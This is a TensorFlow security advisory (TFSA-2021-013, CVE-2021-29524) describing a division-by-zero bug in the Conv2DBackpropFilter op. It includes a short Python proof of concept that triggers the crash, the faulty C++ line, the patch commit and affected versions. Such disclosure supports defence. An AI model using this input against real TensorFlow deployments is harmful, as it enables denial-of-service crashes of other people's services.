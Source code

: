 ## TFSA-2021-013: Division by 0 in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29524

### Impact
An attacker can trigger a division by 0 in `tf.raw_ops.Conv2DBackpropFilter`:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 1, 0], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 0, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(input=input_tensor, filter_sizes=filter_sizes,
                                out_backprop=out_backprop,
                                strides=[1, 66, 18, 1], use_cudnn_on_gpu=True,
                                padding='SAME', explicit_paddings=[],
                                data_format='NHWC', dilations=[1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/496c2630e51c1a478f095b084329acedb253db6b/tensorflow/core/kernels/conv_grad_shape_utils.cc#L130) does a modulus operation where the divisor is controlled by the caller:

```cc
  if (dims->in_depth % filter_shape.dim_size(num_dims - 2)) { ... }
```

### Patches
We have patched the issue in GitHub commit
[fca9874a9b42a2134f907d2fb46ab774a831404a](https://github.com/galeone/tensorflow/commit/fca9874a9b42a2134f907d2fb46ab774a831404a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

